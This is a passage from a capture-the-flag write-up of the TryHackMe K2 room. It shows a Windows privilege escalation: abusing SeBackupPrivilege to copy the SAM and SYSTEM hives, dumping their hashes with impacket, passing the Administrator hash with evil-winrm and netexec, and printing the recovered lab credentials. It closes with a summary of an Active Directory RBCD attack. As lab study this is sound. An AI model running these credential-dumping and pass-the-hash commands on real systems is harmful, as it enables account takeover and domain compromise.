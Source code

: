 ### Privilege Escalation

![SeBackUpPriv](/images/THM-K2/SeBackUpPriv.png)

Because of the `SeBackupPrivilege` we can get copies of the SAM and SYSTEM hives.

![SeBackUpPriv information](/images/THM-K2/SeBackupPrivilege_info.png)
_[Source](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges)_

```
reg save hklm\sam C:\Windows\Temp\SAM

reg save hklm\system C:\Windows\Temp\SYSTEM
```

![reghives copy](/images/THM-K2/reghives_copy.png)

We then transfer the hives to our local machine.

```
download C:\Windows\Temp\SAM

download C:\Windows\Temp\SYSTEM
```

With `impacket` we can dump the hashes by using the hives we downloaded.

```
impacket-secretsdump -sam SAM -system SYSTEM local
```

![Admin hash](/images/THM-K2/Admin_hash.png)

Using the `Administrator` hash, we login with evil-winrm.

```
evil-winrm -i k2.thm -u Administrator -H "9545b61858c043477c350ae86c37b32f"
```

Furthermore we can retrieve the administrator password with netexec.

```
netexec smb k2.thm -u Administrator -H "9545b61858c043477c350ae86c37b32f" --dpapi
```

![Admin password](/images/THM-K2/admin_pwd.png)

The credentials are `Administrator:vz0q$i8b4c`.


Next is the final machine for this room, The Summit.

# The Summit

The Summit machine, the final part of the K2 challenge, is also a Domain Controller. Through Active Directory enumeration, we uncover valid credentials, gaining an initial foothold. We then exploit some file misconfigurations related to a `.bat` file to obtain the file owner's password hash, which, once cracked, grants us access to that user account. Bloodhound reveals that this user is part of a group with the `GenericWrite` permission on the Domain Controller, enabling us to perform Resource-Based Constrained Delegation (RBCD). Using this, we retrieve the `Administrator` hash, and recover the root flag.

